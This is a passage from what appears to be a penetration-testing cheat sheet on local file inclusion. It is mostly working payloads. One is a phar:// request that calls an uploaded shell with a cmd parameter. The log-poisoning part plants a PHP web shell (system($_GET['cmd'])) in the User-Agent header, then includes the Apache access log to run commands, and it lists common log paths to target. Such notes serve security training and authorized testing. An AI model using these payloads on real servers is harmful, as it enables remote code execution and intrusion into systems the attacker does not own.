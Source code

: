 Shell

```php
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

## Poisoning

### Log File poisoning

This is a technique where an attacker injects malicious code into log files on the server, including via the LFI vulnerability. Since log files often record user input \
(such as <mark style="color:red;">**User-Agent**</mark> strings or <mark style="color:red;">**GET/POST parameters**</mark>, <mark style="color:red;">SSH login</mark>/ <mark style="color:red;">**FTP Login**</mark>, <mark style="color:red;">Apache</mark> <mark style="color:red;"></mark><mark style="color:red;">**Log**</mark>), an attacker can manipulate these inputs to inject PHP code.

Steps:Inject malicious code (usually PHP) into a log file

```php
GET /index.php?page=../../../../var/log/apache2/access.log HTTP/1.1
Host: vulnerable-website.com
User-Agent: <?php system($_GET['cmd']); ?>
```

Once  the log file eis poisoned&#x20;

{% code overflow="wrap" %}
```
http://vulnerable-website.com/index.php?page=../../../../var/log/apache2/access.log&cmd=id
```
{% endcode %}

**Files Commonly Targeted for Log Poisoning:**

* Web server access/error logs (`/var/log/apache2/access.log`, `/var/log/httpd/access.log`).
* Mail logs (`/var/log/mail.log`).
* User logins (`/var/log/auth.log`).

<figure><img src="../../.gitbook/assets/image (429).png" alt=""><figcaption></figcaption></figure>
